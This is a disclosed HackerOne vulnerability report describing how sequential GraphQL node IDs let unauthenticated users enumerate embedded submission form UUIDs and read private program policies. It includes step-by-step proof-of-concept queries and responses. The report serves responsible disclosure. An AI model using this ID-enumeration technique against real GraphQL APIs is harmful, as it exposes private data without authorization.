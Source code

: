 # Embedded submission form UUIDs can be enumerated through GraphQL node interface, exposing sensitive program details

## Report Details
- **Report ID**: 447930
- **URL**: https://hackerone.com/reports/447930
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-11-21T00:42:31.538Z
- **Disclosed**: 2019-01-11T21:37:05.439Z

## Reporter
- **Username**: jobert
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
It's possible for an attacker to enumerate embedded submission form UUIDs through HackerOne's GraphQL node interface. In normal application behavior, an embedded submission form is queried through GraphQL with a UUID. These UUIDs are random and they're not susceptible to brute force attacks. However, the UUID is not the primary key of these models. Instead, in the backend, it still has an auto incremental primary key. Because of that they can be queried directly using the node interface. From the node interface, the UUID is exposed, which can then be used to obtain the same information an invited reporter can access.

# Proof of concept
In order to reproduce the vulnerability, follow the steps below.

 - consider the following node ID: `Z2lkOi8vaGFja2Vyb25lL0VtYmVkZGVkU3VibWlzc2lvbkZvcm0vOQ==`
 - decode the ID (base64), which will look something like `gid://hackerone/EmbeddedSubmissionForm/9`
 - change the primary key identifier, and base64 encode it
 - execute the following GraphQL query:

**Request**
```
query {
  node(id: "Z2lkOi8vaGFja2Vyb25lL0VtYmVkZGVkU3VibWlzc2lvbkZvcm0vOQ==") {
    ... on EmbeddedSubmissionForm {
      uuid
    }
  }
}
```

**Response**
```json
{
  "data": {
    "node": {
      "id": "Z2lkOi8vaGFja2Vyb25lL0VtYmVkZGVkU3VibWlzc2lvbkZvcm0vOQ==",
      "uuid": "████"
    }
  }
}
```

 - take the UUID, and append `?embedded_submission_form_uuid=:uuid` to the GraphQL request
 - submit the following query to obtain the program information:

**Request**
```
POST /graphql?embedded_submission_form_uuid=█████████ HTTP/1.1
Host: hackerone.com
...

{"query":"query { node(id: \"Z2lkOi8vaGFja2Vyb25lL0VtYmVkZGVkU3VibWlzc2lvbkZvcm0vOQ==\") { ... on EmbeddedSubmissionForm { id, uuid team { handle policy } }}}","variables":{}}
```

**Response**
```json
{
  "data": {
    "node": {
      "id": "Z2lkOi8vaGFja2Vyb25lL0VtYmVkZGVkU3VibWlzc2lvbkZvcm0vOQ==",
      "uuid": "███",
      "team": {
        "handle": "██████████",
        "policy": "The policy."
      }
    }
  }
}
```

## Impact

Any unauthenticated user can obtain the same information about a private program as a participating hacker. This may reveal sensitive information about private programs on HackerOne, such as their policy, terms, resolved bug count, bounty table, etc.

There are essentially two vulnerabilities here: the ability to directly query the `EmbeddedSubmissionForm` object and the fact that by specifying a UUID, the `Team` object exposes too much information.

## Attachments
No attachments
